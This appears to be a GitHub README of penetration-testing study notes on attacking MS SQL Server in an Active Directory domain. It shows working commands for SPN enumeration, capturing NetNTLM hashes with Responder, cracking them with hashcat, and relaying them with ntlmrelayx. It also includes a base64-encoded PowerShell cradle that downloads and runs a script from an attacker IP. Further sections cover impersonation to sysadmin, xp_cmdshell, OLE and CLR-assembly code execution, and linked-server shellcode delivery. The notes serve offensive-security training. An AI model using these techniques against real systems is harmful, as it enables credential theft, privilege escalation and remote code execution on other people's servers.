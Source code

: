 #### MS SQL Enumeration

When a MS SQL server is running in the context of an Active Directory service account, it is
normally associated with a Service Principal Name (SPN). Threrefore a discreet way of locating instances of MS SQL in an Active Directory
environment is to query the domain controller for all registered SPNs related to MS SQL.

If we own a domain user, we can query the domain controller with the native **setspn** tool

-T is the domain flag 
```
C:\Tools> setspn -T corp1 -Q MSSQLSvc/*
Checking domain DC=corp1,DC=com
CN=SQLSvc,OU=Corp1ServiceAccounts,OU=Corp1Users,DC=corp1,DC=com
MSSQLSvc/appsrv01.corp1.com:1433
MSSQLSvc/appsrv01.corp1.com:SQLEXPRESS
MSSQLSvc/DC01.corp1.com:1433
```

#### MS SQL Authentication

Authentication in MS SQL is implemented in two stages. First, a traditional login is required. This
can be either an SQL server login or we can use Windows account-based authentication. SQL
server login is performed with local accounts on each individual SQL server. Windows
authentication on the other hand, works through Kerberos and allows any domain user to
authenticate with a Ticket Granting Service (TGS) ticket.

we may perform a login with the built-in SQL server sa account, which will map to
the datavase owner(dbo) account. If we perform a login with an account that has no associated SQL user
account, it will automatically be mapped to the built-in guest user account.

We can use SqlConnection class, [sqlconnect.cs](/13MSSQL/slqconnect.cs) to connect to the server. And run sql query.

#### UNC Path injection

We can force an SQL server with [forcesmb.cs](/13MSSQL/forcesmb.cs ) to connect to an SMB
share we control, the connection will include authentication data. If the hostname is given as an IP address, Windows will automatically revert to NTLM
authentication instead of Kerberos authentication.

on the attack machine, we need to set up the responder to catch the relay.

```
kali@kali:~$ sudo responder -I tap0

SQLSvc::corp1:00031db3ed40602b:A05501E7450025CF27120CE89BAF1C6E:0101000000000000C06531
50DE09D201F361A5C346497213000000000200080053004D004200330001001E00570049004E002D005000
.....
```
We can crack the NetNTLM hash with hashcat
```
kali@kali:~$ hashcat -m 5600 hash.txt dict.txt --force
```
#### relay the NetNTLM hash
First, we need to install impacket, and kali powershell
```
kali@kali:~$ sudo apt install python3-impacket
kali@kali:~$ sudo apt -y install powershell
```

invoke kali powershell to create base64encoded payload command 

```
kali@kali:~$ pwsh
PowerShell 7.0.

PS /home/kali> $text = "(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.txt') | IEX"
PS /home/kali> $bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
PS /home/kali> $EncodedText = [Convert]::ToBase64String($bytes)
PS /home/kali> $EncodedText
KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0AC
kALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAu
```

kick off netlm relay, and run our listener to catch the call back
```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 -c 'powershell -enc payload'
```
#### Privilege Escalation

EXECUTE AS statement provides a way to execute a SQL query in the context of a different login or user. We could use this to escalate our ptivilege.

We can enumerate which logins allow impersonation, which get the this information using the database query
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals
b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```
Putting in it a c# script, we have [enumimpernoate.cs](/13MSSQL/enumImpernoate.cs)

after running the code, i identify that the sa login allow impersonation, we will try to impersonate the sa login with EXECUTE AS LOGIN = sa. so we have [ImpersonateSA.cs](/13MSSQL/ImpernoateSA.cs)

However, a database user can only perform actions on a given database. This means that
impersonation of a user with sysadmin role membership in a database does not necessarily lead
to server-wide sysadmin role membership. To fully compromise the database server, the database user we impersonate must be in a
database that has the **TRUSTWORTHY** property set.

The only native database with the TRUSTWORTHY property enabled is **msdb**. As is the case with many databases, the database owner (dbo) user has the sysadmin role. we can update our ImpersonateSA c# script to [impersonateDBO.cs](/13MSSQL/ImpersonateDBO.cs )

#### Remote code execution with xp_cmdshell

The xp_cmdshell stored procedure spawns a Windows command shell and passes in a string that
is then executed. The output of the command is returned by the procedure. To do this, we’ll need to begin with the impersonation of the
sa login. After this, we’ll use the sp_configure stored procedure to activate the advanced options
and then enable xp_cmdshell. The full implementation is in [xpcmdshell.cs](/13MSSQL/xpcmdshell.cs)

#### Remote code execution with sp_OACreate and sp_OAMethod

We can also use the sp_OACreate and sp_OAMethod stored procedures to create and execute a new stored procedure based on [Object Linking and
Embedding](https://en.wikipedia.org/wiki/Object_Linking_and_Embedding)

SQL statement to create local variable and instantiate the OLE object.
```
DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT;
```


sp_OAMethod prototype, take the name of the procedure(objecttoken), method of the OLE(methodname)->run, optional output variable,and parameters for the invoked method
```
sp_OAMethod objecttoken , methodname
[ , returnvalue OUTPUT ]
[ , [ @parametername = ] parameter [ OUTPUT ] [ ...n ] ]
```
The example source code, [soOAMethod.cs](/13MSSQL/spOAMethod.cs) which create a file in remote host. 

#### Custom Assemblies
If a database has TRUSTWORTHY property set, it’s possible to use the CREATE ASSEMBLY924 statement to import a managed DLL as an object inside the SQL server and execute methods within it.

- 1.We will first create a Class Library, [cmdExec](/13MSSQL/cmdExec.cs) in .NET for cmd execution
- 2.We can compiled the cs into dll and convert it to a hex string [toHex.ps1](/13MSSQL/toHex.ps1). The hex string can be embbeded inside the  create assembly statement for later use.
- 3.Create the c# code that query the sql remotely. [AssemblyLoad.cs](/13MSSQL/AssemblyLoad.cs), complied and run
- 4.Lastly, you can't call create assembly multipule times, you must remove it with [cleanup.cs](/13MSSQL/cleanup.cs)

#### SQL Link

When a link from one SQL server to another is created, the administrator must specify the
execution context that will be used during the connection. If the administrator chooses a specific SQL login and that login has sysadmin role membership,
we would obtain sysadmin privileges on the linked SQL server. This will be the case even if we
only have low privileged access on the original SQL server.

- 1.We need to enumerate servers linked to the current SQL server with [linkenum.cs](/13MSSQL/linkenum.cs). We can use sp_linkedservesr stored procedure returns a list of linked servers for us.
- 2.Check if possible to run command across the link using OPENQUERY, and check the security context. [checklink.cs](/13MSSQL/linkcheck.cs)
- 3.If you have sa permission over the link database, you could  execute PowerShell shellcode runner through a download cradle with the xp_cmdshell stored
procedure. [linkshellcode.cs](/13MSSQL/linkshellcode.cs)

#### why there are so many links??
The SQL server on A has a link to the SQL server on B. This means that we could
follow the link from A to B to obtain the SA login security context, and then return back over the link from B to A.

- 1.enumenate the link on the remote host with 
```
EXEC ('sp_linkedservers') AT remotehostname(ex DC01)
```
- 2.query the permission from local host to remote host and return link using [linktolinkandbackquery.cs](/13MSSQL/linktolinkandbackquery.cs) to verify permission.
- 3.once verify the sa permission, we can now execute command on the remote host, and tell the remote host to exeute command on local host. [linktolinkbackshellcode.cs](13MSSQL/linktolinkbackshellcode.cs)
 
